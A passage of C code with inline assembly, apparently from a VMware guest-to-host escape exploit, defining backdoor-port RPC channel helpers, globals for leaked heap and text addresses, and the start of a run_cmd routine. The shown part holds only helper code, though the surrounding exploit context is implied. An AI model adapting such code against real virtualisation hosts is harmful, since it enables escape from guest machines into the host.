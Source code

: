 ```c
        "add %%r11,%%rbp\n\t"
        "movl %%ebx,(%%rbp)\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "popq %%rbp\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11","%r12"
       );
}

void channel_recv_finish(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x1,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}
void channel_recv_finish2(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x21,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}
void channel_close(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0006001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}
struct channel{
    int cookie1;
    int cookie2;
    int num;
};
uint64_t heap =0;
uint64_t text =0;
void run_cmd(char *cmd){
    struct channel tmp;
    int res,len,i;
    char *data;
    channel_open(&tmp.cookie1,&tmp.cookie2,&tmp.num,&res);
```